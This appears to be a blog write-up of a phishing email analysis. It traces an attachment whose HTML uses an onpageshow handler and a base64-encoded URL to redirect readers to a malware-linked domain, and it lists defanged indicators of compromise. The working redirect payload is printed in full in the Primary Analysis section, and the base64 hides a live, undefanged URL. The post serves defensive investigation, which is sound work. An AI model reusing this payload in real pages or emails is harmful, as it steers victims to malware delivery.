 ```yaml
---
layout: post
title:  "Phishing Email 20201019-001 - A Cold Case"
date:   2022-04-26 20:52:47 -0400
categories: phishing analysis
---
```

A while back I received a curious email and immediately thought that it was a good candidate for a little bit of analysis. It had a nonsensical subject line and an attachment with what appeared to be a Russian filename. The body of the email was empty. And for all of that, it somehow managed to miss my GMail's spam filter and land directly in my inbox flagged as Important. However, I had just started a new job and was a little swamped in learning some new tools. So, I saved a copy of the email and its attachment with the intent on coming back to dig into it at a later date.

That later date turned out to be six months in the future.

But, stale as the suspicious email was, I decided to crack it open and find out what it was all about anyway. It was just too enticing to leave unexplored forever. I'm glad I did! Even though the email was old enough for its original attack infrastructure to have evaporated, it still held some interesting little insights into the email's original purpose.

### Primary Analysis

When approaching a potentially suspicious email, I like to start with the email itself and determine any indicators or behaviors that can be determined without touching any external systems.

I'll start with the email's details:

```
To: [11 recipients redacted]
From: Katrice Dorrell <katricedorrell[@]gmail.com>
Subject Z XJ O ZX
Attachment: Играть E D Y .xhtml
Body: [EMPTY]
```

Looking first at the recipients (redacted in this report) reveals some commonalities, but not much. The email included 11 recipients all in the TO line and all were GMail addresses. That's pretty much where all of the commonalities ended. A few quick searches in Have I Been Pwned revealed that two of the accounts appeared in the Exploit.in credential dump, and two were in Collection #1. It's possible that all of the addresses appeared in a common undisclosed breach, but who's to say? At any rate, there's not a whole lot that can be gleaned from the targets.

Turning to the sender, it's another GMail account, which makes most of the other email header information not super useful for attribution. Searching for the sender email in google didn't turn up any information and neither did searching for Katrice Dorrell in a wide range of social media sites. It's likely, then, that this email address was genned up for this particular phishing operation. Suffice to say, it's probably another dead end.

As for the email's subject, it seems fairly random to me, but just to be sure I ran it through some search engines to see if anything came up. The only thing of interest was that Google auto-corrected ZXJOZX to XBox, so maybe the sender hoped unwary recipients would make the same conclusion.

Since the email's body is empty, the only primary place left to analyze is the attachment.

Luckily, the file is a simple HTML file, meaning I can safely open it up in a plain text editor with no need to muck around with more advanced forensic tools.

First, I'm curious if the file name means anything interesting. According to online translators, "Играть" is Russian for "Play." Maybe that's related to the potential XBox connection above?

Looking inside the file, I found a very short HTML document:

{% highlight html %}
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<body onpageshow="document.location.replace(window.atob('aHR0cDovL2tlaXRhcm8wMDAxLnByby9EY0x0ZFM/MTE3MDIxNDg4ODc3NzI0NSA='));">
{% endhighlight %}

The header is pretty standard boilerplate, but the JavaScript in the document body immediately caught my attention. It starts with an `onpageshow` assignment, which is a way to execute a Javascript function when a pageload event happens on the document. This in turn triggers a function call:

{% highlight javascript %}
document.location.replace(window.atob('aHR0cDovL2tlaXRhcm8wMDAxLnByby9EY0x0ZFM/MTE3MDIxNDg4ODc3NzI0NSA='));
{% endhighlight %}

The `location.replace()` Javascript function replaces the content of the HTML document with the document located at another URL. In this case, the argument is another function, `window.atob()`, which decodes a Base64 string into standard text.

Decoding the argument to that function yields the following URL:
`http[://]keitaro0001[.]pro/DcLtdS?1170214888777245`

Now it's really looking phishy! I was pretty convinced at this point that I had a malicious payload on my hands. But, since the file didn't contain anything executable other than the above Javascript, any more intelligence would have to be gathered from outside sources.

## Secondary Research

Moving on to secondary sources, I turned to urlscan.io to see if I could get any information about the URL itself. Urlscan is a tool that will scan a web page and provide information such as its IP address, screenshots of the rendered page, and other stats about the site's behavior.

The initial scan didn't turn up a whole lot of information. As I mentioned above, this is a rather old email in the world of phishing campaigns, and it's unlikely that much of the original attack infrastructure was still standing. At the time that I scanned it, the domain resolved to a U.S. based IP address, and the URL was returning a Namecheap splash page indicating that the domain had been suspended due to issues with its whois verification. For those unfamiliar, whois data is information about the person or organization that registered a domain name. In this case, the whois verification issue reinforces the hypothesis that this was at some point a malicious site.

The only other interesting piece of information is that urlscan.io showed that this particular domain had appeared in 31 scans. I clearly wasn't the only person interested in it!

Reviewing those scans I found that the majority of them had been performed six months ago, right around the time that I received the email. Which means it was probably a wide cast but short lived campaign. This is right in line with what I would expect. Among the previous scans, there were 6 different IP addresses, most of which were located in Russia and owned by various Russian hosting services. Using Shodan, a service that performs periodic scans of public IP addresses across the Internet, showed that only one of the IP addresses in question was currently running a Web server.

While the attach infrastruture was no longer around for analysis, the historical data from Urlscan.io does tell a story. The domain in question appears to have bounced between several Russian-based IP addresses belonging to several different hosting providers over a short period of time before the domain itself was taken offline by the registrar, possibly due to evidence of malicious activity.

There's one final place I went to in my investigation into this email. To see if the domain had any association with any known malware, I did a search in VirusTotal. Sure enough, eight of VirusTotal's malware detection engines reported the domain as suspicious or malicious. Additionally, VirusTotal observed a file identified as a generic Trojan agent communicating with the domain. While there isn't much to indicate which Trojan variant this was, it's likely that the program would have attempted to perform some sort of exploitation and deploy additional malware if I had actually loaded it onto my computer.

## Conclusion

Despite the trail being cold, there is still very clear evidence that this email contained a malicious payload that could have potentially severely compromised my computer. Given how unusual the email was, I'm not sure how many people would have fallen for it, but then again phishing is a numbers game. And, the fact that it not only evaded GMail's spam filter, but also managed to get flagged as Important (possibly due to it being sent directly to a limited number of recipients), is concerning. If even just a fraction of a percent of targets download and open the malicious attachment, that can still translate to hundreds of thousands of machines if the distribution is wide enough.

At any rate, it provides an important lesson about not blindly trusting email filters to protect us from harm, and to approach everything in the inbox with caution.

## Primary Artifacts

### Email Addresses
```
katricedorrell[@]gmail.com
```

### File Names
```
Играть E D Y .xhtml
```

### URLs
```
http[://]keitaro0001[.]pro/DcLtdS?1170214888777245
```

### Domains
```
keitaro0001[.]pro/
```

## Secondary Artifacts

### IP Addresses
```
31[.]41[.]46[.]64
194[.]48[.]155[.]110
185[.]185[.]68[.]131
185[.]251[.]91[.]65
178[.]208[.]75[.]4
46[.]8[.]158[.]193
```

### Malware Signatures
```
TROJAN.AGENT.FOHY
```

### File Names
```
ПРИВАТНО OPLF181.aipahHZTD .rar
```

### Hashes
```
de6da06bd31ff942041de115d7134b92e6bd1fbca99412548a264e316b19cc84 (SHA256)
```
